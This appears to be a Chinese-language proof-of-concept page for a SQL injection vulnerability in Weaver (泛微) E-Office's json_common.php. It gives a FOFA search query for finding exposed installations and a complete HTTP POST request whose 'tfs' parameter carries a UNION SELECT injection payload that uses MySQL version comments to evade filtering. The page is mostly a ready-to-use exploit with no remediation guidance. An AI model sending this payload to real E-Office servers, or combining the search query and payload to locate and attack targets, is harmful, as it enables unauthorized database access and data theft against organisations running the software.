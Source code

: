 ## 泛微E-Office-json_common.phpSQL注入漏洞

作为协同管理软件行业的领军企业，泛微有业界优秀的协同管理软件产品。在企业级移动互联大潮下，泛微发布了全新的以“移动化 社交化 平台化 云端化”四化为核心的全一代产品系列，其中泛微e-office为企业办公提供丰富应用，覆盖常见协作场景，开箱即用。满足人事、行政、财务、销售、运营、市场等不同部门协作需求，帮助组织高效人事管理。系统 json_common.php 文件存在SQL注入漏洞，容易导致数据泄露以及被远控。

## fofa

```
app="泛微-EOffice"
```

## poc

```
POST /building/json_common.php HTTP/1.1
Host: 192.168.86.128:8097
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close
Content-Length: 87
Accept: */*
Accept-Language: en
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

tfs=city` where cityId =-1 /*!50000union*/ /*!50000select*/1,2,md5(102103122) ,4#|2|333
```

